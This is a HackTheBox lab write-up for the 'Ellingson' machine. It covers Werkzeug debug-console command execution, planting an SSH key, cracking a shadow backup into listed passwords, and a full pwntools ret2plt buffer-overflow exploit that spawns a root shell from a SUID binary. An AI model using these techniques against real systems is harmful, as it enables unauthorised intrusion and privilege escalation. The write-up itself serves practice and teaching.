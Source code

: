 ```yaml
---
title: "HackTheBox - WriteUp 9"
date: 2019-07-04T17:33:14+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Ellingson

Nmap first, 80 HTTP Apache and 22 SSH.

## User

Generate a key pair of SSH for preparation.

Check the pages, you'll find URL: http://10.10.10.139/articles/2

Then let the article ID "overflow"ed, then You'll be able to see the debug console of Python Werkzeug.

Use the console to execute shell command, currently logged in as `hal`.

This user `~/.ssh/authorized_keys` is allowed to write, so write the public key you just generated to the `authorized_keys`. Then access it with SSH.

After that, run LinEnum, `/var/backups/shadow.bak` is found and is readable. Access it, crack the hash in it, found another credentials: `margo:iamgod$08` and `plague:password123`

Login as margo, You have the access with `user.txt` now.  `plague` is totally useless here and cannot login.

## Root

Run LinEnum again, found SUID file `/usr/bin/garbage`. Kernel is relatively newer version. So DirtyCow CANNOT be used here.

But the `gdb` is not installed. Check the libc with `ldd /usr/bin/garbage` to get the glibc file path and download both files.

There's a buffer overflow approach with `ret2plt` method.

Before we continue, I strongly suggest you read the following referrence to get the knowledge you may need:

- [ELF 101](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/)
- [Series Article about ELF](https://www.airs.com/blog/archives/38)
- [PLT & GOT - Code sharing with dynamic libraries](https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html)
- [ippsec: Bitterman On Youtube](https://www.youtube.com/watch?reload=9&v=6S4A2nhHdWg)
- [Arguments passed in a function call in x64 machine](http://6.035.scripts.mit.edu/sp17/x86-64-architecture-guide.html)

Since we know the basic knowledge, `chmod +s ./garbage` we downloaded to simulate the environment.

So next, run `ltrace ./garbage`,  you will find the password it wanted. However, this is totally useless.

So in fact, it is a buffer overflow here.

As my blog post [HTB: Solidstate](/hioscp/2019-htb-writeup5.md) told, just create pattern `pattern create 150`, and insert, then use `info frame`  to get saved %rip , use `pattern offset 0x41416d4141514141` to get : `4702159612987654465 found at offset: 136`.

Run `checksec` first, get ASLR fully-enabled and 64-bit Kernel with NX enabled, RELRO partial.

Since this is x64 machine, we cannot use bruteforce to crack the libc base address. We have to use `ret2plt` here. About the finding of specific function address, check the comment in the next file, finally, the exploit as here:

```python
#!/usr/bin/env python2

from pwn import *

# this program must be initiated with UID 1002, told by IDA reverse.

context(os="linux", arch="amd64")   # amd64 = x64 little-endian, ia64 = x64 big-endian
context.log_level = 'DEBUG'
libc = ELF("./r_libc.so.6")
session = ssh("margo", "10.10.10.139", password="iamgod$08")
p = session.process('/usr/bin/garbage')

#p = gdb.debug('./garbage')

junk = "\x90" * 136

# Stage 1: pop-ret-rdi get libc base
# Find the pop_rdi via radare2(BUT BUGS HERE, SO USE ROPPER INSTEAD):  r2 ./garbage -> /R blahblah
# Disassemble the ELF and find function: odjdump -D ./garbage | grep blahblah
# Disassemble the ELF and find PLT: objdump -d ./garbage -j .plt
# Find the pop_rdi via ropper: ropper -f ./garbage --search "pop rdi" 
# Outupt of puts disassembled via objdump (the contents inside [] is also comments):  [Linked Call Address in Binary]  401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 [Address in GOT] <puts@GLIBC_2.2.5>

plt_puts = p64(0x401050)
got_puts = p64(0x404028)
pop_rdi = p64(0x40179b)
plt_main = p64(0x401619)

# x86_64 put all args in registers instead of stack in memory
# pop_rdi used to send params to system function call

# get the puts address in GOT
# the ELF working procedure is: load library -> relocation, call function via PLT stub -> patch the GOT table with address the libraries loaded in 
# payload1 will give you the address puts@GLIBC loaded in at runtime in GOT
payload1 = junk + pop_rdi + got_puts + plt_puts + plt_main

p.sendline(payload1)
p.recvuntil("access denied.")

# Receive the result and only accept the first 8 bytes(64 bits), remove the LF
# If length != 8, left-justify it to 8 bytes and use the padding of \x00
leaked_puts = p.recv()[:8].strip().ljust(8, "\x00")

log.success("Leaked puts@GLIBC: " + str(leaked_puts))

# Stage 2: according to base, get the offset

# Get the related function address of so file
# readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
# strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

leaked_puts = u64(leaked_puts)
libc_puts = libc.symbols['puts']
libc_base = leaked_puts - libc_puts
libc_system = libc.symbols['system']
libc_sh = libc.search('/bin/sh').next()
libc_setuid = libc.symbols['setuid']

# Param of setuid(0)
nullparam = p64(0x0)

# Function addresses in the garbage at runtime
systemAddr = p64(libc_base + libc_system)
shAddr = p64(libc_base + libc_sh)
setuidAddr = p64(libc_base + libc_setuid)

# setuid(0) + system('/bin/sh')
payload2 = junk + pop_rdi + nullparam + setuidAddr + pop_rdi + shAddr + systemAddr

p.sendline(payload2)
p.recvuntil("access denied.")

p.interactive()
```

(END)

